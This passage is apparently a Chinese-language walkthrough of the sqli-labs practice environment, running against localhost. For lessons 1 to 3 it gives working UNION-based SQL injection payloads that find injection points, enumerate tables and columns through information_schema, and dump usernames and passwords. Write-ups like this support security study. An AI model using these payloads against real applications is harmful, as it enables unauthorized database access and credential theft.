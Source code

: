 得到`security`库下有四个表：`emails`,`referers`,`uagernts`,`users`

​	

### 查询某个表下有哪些字段

`http://127.0.0.1/sqli-labs/Less-1/?id=-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_name="users"--+`

![](https://pic.imgdb.cn/item/64cfa53f1ddac507ccfa151b.jpg)

得到`users`表下有这些字段

​	

### 查询某个字段的值

`http://127.0.0.1/sqli-labs/Less-1/?id=-1' union select 1,password,3 from users--+`

![](https://pic.imgdb.cn/item/64cfa5a61ddac507ccfb9dfb.jpg)

得到`password`的值为：`Dumb`

​	

​	

## 第二关

`http://127.0.0.1/sqli-labs/Less-2/?id=1'`报错，说明有注入点

`http://127.0.0.1/sqli-labs/Less-2/?id=1'--+`，还是报错，说明是数字型，接下来就不用加`'`来闭合了，只需要在后面加`--+`来注释掉后面的sql语句：`LIMIT 0,1`

`http://127.0.0.1/sqli-labs/Less-2/?id=1 order by 3--+`，页面正常回显；`http://127.0.0.1/sqli-labs/Less-2/?id=1 order by 4--+`，页面报错，说明有3个字段

`http://127.0.0.1/sqli-labs/Less-2/?id=-1 union select 1,2,3--+`，得到回显位置

`http://127.0.0.1/sqli-labs/Less-2/?id=-1 union select 1,database(),3--+`得到数据库名

剩下步骤基本相同

​	

​	

## 第三关

`1'`页面报错，说明有注入点

![](https://pic.imgdb.cn/item/64cfa98c1ddac507cc08f247.jpg)

并且通过报错信息得知是单引号字符型且用括号闭合

```mysql
1') order by 3--+
-1') union select 1,2,3--+
-1') union select 1,database(),version()--+
-1') union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--+
-1') union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'--+
-1') union select 1,2,group_concat(username,id,password) from users--+
```
